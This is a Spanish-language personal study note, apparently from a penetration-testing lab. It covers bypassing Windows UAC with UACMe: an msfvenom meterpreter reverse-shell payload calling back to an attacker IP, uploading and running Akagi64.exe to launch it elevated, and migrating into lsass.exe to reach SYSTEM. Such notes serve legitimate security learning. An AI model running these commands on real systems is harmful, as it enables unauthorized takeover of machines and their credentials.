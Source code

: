 21-03-2025 20:43
Status: #idea
Tags: [[Windows Privilege Escalation]]

- [[#Uso de UACMe|Uso de UACMe]]

# Bypassing UAC (UACMe)

UAC es una herramienta de Windows que permite solicitar permisos del administrador para realizar ciertas acciones.

Básicamente, permite indicarle a Windows que el usuario está seguro de que quiere ejecutar el programa.

Para conseguir saltarnos UAC, necesitaremos acceso a una cuenta de usuario que esté en el grupo de local administrators.

Como en la elevación de permisos, las técnicas van a cambiar dependiendo de la versión que usemos de Windows.

Para verificar que usuarios hay en la máquina, y cuales forman parte del grupo de administradores podremos usar estos comandos en un shell:

```shell
net user
net localgroup administrators
```

Si estamos en un meterpreter, habrá que spawnear una shell antes, con el comando **shell**.

Para verificar que UAC está funcionando correctamente, podremos intentar cambiar la contraseña de algún admin, por ejemplo:

```shell
net user admin password123
```

## Uso de UACMe

[UACMe](https://github.com/hfiref0x/UACME) es una herramienta que nos ayudará a saltarnos esta comprobación de Windows.

Tendremos que generar un payload con msfvenom:

```shell
msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.10.10.10 LPORT=1234 -f exe > backdoor.exe
```

Posteriormente, tendremos que crear un listener, para lo que usaremos **multi/handler**, poniendo la payload **windows/meterpreter/reverse_tcp**, poniendo el LHOST y LPORT como siempre.

Si no existe el directorio Temp, tendremos que navegar a C: y crearlo, y posteriormente, subir en la máquina que tenemos el meterpreter nuestro backdoor.exe con el comando upload, además del Akagi64 o Akagi32 de UACMe.

```shell
upload backdoor.exe
upload Akagi64.exe
```

Para este lab, usaremos la key 23, pero esto, si miras la documentación, verás que puede variar dependiendo de lo que queramos hacer, y de la versión de Windows.

```shell
.\Akagi64.exe 23 C:\Temp\backdoor.exe
```

Esto conseguirá que se ejecute nuestro backdoor.exe con privilegios elevados, consiguiendo así una sesión de meterpreter con permisos elevados.

Si hacemos ahora **getprivs**, veremos como tenemos más privilegios que antes.

Esto nos permitirá migrar a cualquier otro proceso, por ejemplo, **lsass.exe** que tenga permisos de NT AUTHORITY\SYSTEM con el comando migrate especificando el PID (Process ID):

```shell
ps
migrate 688
```

Si ahora volvemos a hacer **getuid**, veremos como somos NT AUTHORITY\SYSTEM.

---
# Backlinks

```dataview
LIST
FROM [[]]
SORT file.name ASC
```
